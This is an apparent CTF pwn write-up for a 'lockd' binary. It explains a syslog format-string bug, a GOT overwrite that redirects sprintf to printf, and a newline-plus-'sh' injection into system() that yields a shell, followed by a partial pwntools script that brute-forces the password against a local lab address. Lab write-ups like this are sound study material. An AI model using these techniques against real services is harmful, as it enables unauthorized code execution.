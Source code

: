 <img src="/assets/img/lockd/lock.png" width="600">

It receives password one more, and check. <br />
Through system() func, it execute lock binary.(just print) <br />
Lastly, it receives name, and log it through syslog() func. <br />
At syslog() func, it receives argument fmt without formatter. <br />
This can be vulnerability, because we can make fmt to cause format string bug. <br />
<br />
Before system(fmt), sprintf puts null byte to end of fmt, but we can block by before flow. <br />
First, put sprintf()'s got address to lock(0x8048877)'s sfp. <br />
Next, put printf()'s plt to sprintf_got. <br />
By this, binary will exec printf() instead of sprintf(). <br />
fmt doesn't change from input password to './lock LOCK ~~'. <br />
Also there's no null byte. So if wee send input like password + '\x0a' + 'sh', we can exec 'sh'. <br />


***

## Ex code

```python
from pwn import *

context.log_level = 'debug'

'''
password = b''

while len(password) < 16:

    for i in range (0x100):
        r = remote('172.17.0.2', 8107)
        r.sendlineafter(b'Input floor > ', b'3')
        r.sendlineafter(b'Room number > ', b'5')

        buf = b'A'*(16 - len(password) - 1) + bytes([i]) + password + b'B'*4 + b'A'*(16 - len(password) -1)

        try:
            r.sendafter(b'Input master key > ', buf)
            r.recvuntil(b'> ')

        except:
            r.close()
            continue

        password = bytes([i]) + password
        r.close()
        break

'''

```